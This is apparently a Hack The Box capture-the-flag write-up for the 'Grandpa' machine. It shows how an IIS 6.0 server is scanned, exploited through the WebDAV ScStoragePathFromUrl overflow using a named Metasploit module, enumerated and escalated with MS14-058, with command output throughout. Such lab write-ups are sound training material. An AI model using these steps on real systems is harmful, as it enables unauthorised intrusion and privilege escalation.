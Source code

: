 # Grandpa
Date: 2024/06/26

## Enumeration
### Port Scanning
I performed a port scan using the following command:

```bash
nmap -sS -sV -sC -p80 -v -oN v_ports.txt -oX v_ports.xml <IP>
```

The results revealed the following information:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Wed, 26 Jun 2024 04:24:01 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|_  WebDAV type: Unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Port 80 Analysis
#### Vulnerability Search
I searched for vulnerabilities related to IIS 6.0 and found several potential exploits using searchsploit:

```bash
searchsploit iis 6.0
Notable findings included:

Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass
```

## Exploitation
I gained access using the following Metasploit exploit:

```bash
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
```

This vulnerability takes advantages from the PROFIND method, part of the WebDAV protocol, is supported by IIS 6.0 and can be exploited for remote code execution. This vulnerability arises due to improper handling of HTTP requests by IIS, allowing attackers to send malicious requests and execute arbitrary code on the server. Exploiting this involves crafting special HTTP requests that exploit the vulnerability in the PROFIND method.

## Post Exploitation
### Privilege and User Enumeration
After gaining initial access, I ran several commands to enumerate users and system information.

```cmd
whoami /all

USER INFORMATION
----------------

User Name                    SID     
============================ ========
nt authority\network service S-1-5-20

GROUP INFORMATION
-----------------

Group Name                       Type             SID                                            Attributes                                        
================================ ================ ============================================== ==================================================
NT AUTHORITY\NETWORK SERVICE     User             S-1-5-20                                       Mandatory group, Enabled by default, Enabled group
Everyone                         Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
GRANPA\IIS_WPG                   Alias            S-1-5-21-1709780765-3897210020-3926566182-1005 Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Log Users    Alias            S-1-5-32-559                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                    Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE             Well-known group S-1-5-6                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization   Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
LOCAL                            Well-known group S-1-2-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                    Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

User enumeration:

```
net user

User accounts for \\GRANPA

-------------------------------------------------------------------------------
Administrator            ASPNET                   Guest                    
Harry                    IUSR_GRANPA              IWAM_GRANPA              
SUPPORT_388945a0         
System Information
```

System enumeration:

```
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 41 Minutes, 33 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 757 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,295 MB
Page File: In Use:         175 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

### Privilege Escalation
I performed the module `use post/multi/recon/local_exploit_suggester` and I got several possible modules:

```
exploit/windows/local/ms10_015_kitrap0d
exploit/windows/local/ms14_058_track_popup_menu
exploit/windows/local/ms14_070_tcpip_ioctl
exploit/windows/local/ms15_051_client_copy_image
exploit/windows/local/ms16_016_webdav
exploit/windows/local/ppr_flatten_rec
```

After migrating to a more stable process, I used the `exploit/windows/local/ms14_058_track_popup_menu` module to elevate privileges, successfully obtaining **root** access and capturing the flags.

The MS14-058 vulnerability allows attackers to gain elevated privileges by exploiting a flaw in the Windows kernel. This vulnerability affects the handling of track popup menus and can be exploited to execute arbitrary code in kernel mode, leading to privilege escalation.

***

